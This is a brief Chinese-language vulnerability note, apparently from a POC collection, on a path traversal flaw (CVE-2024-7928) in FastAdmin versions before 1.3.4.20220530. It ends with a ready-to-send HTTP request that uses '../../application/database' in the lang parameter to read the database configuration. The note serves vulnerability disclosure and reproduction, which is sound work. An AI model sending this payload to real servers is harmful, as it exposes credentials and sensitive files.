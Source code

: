 # FastAdmin路径遍历漏洞(CVE-2024-7928)

漏洞介绍

FastAdmin是Karson个人开发者的一套基于ThinkPHP和Bootstrap的网站后台开发框架。它基于ThinkPHP和Bootstrap两大主流技术构建，拥有完善的权限管理系统和一键生成CRUD等强大功能。FastAdmin致力于提高开发效率，降低开发成本，同时确保后台系统的稳定性和安全性。

FastAdmin 1.3.4.20220530之前版本存在路径遍历漏洞，该漏洞源于存在任意文件读取漏洞，攻击者利用此漏洞可以获取系统敏感信息。

**影响版本**

影响产品及版本

FastAdmin 1.3.4.20220530之前版本

**漏洞复现**



1.访问漏洞环境

2.对漏洞进行复现

 **POC** 

漏洞复现

```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36


```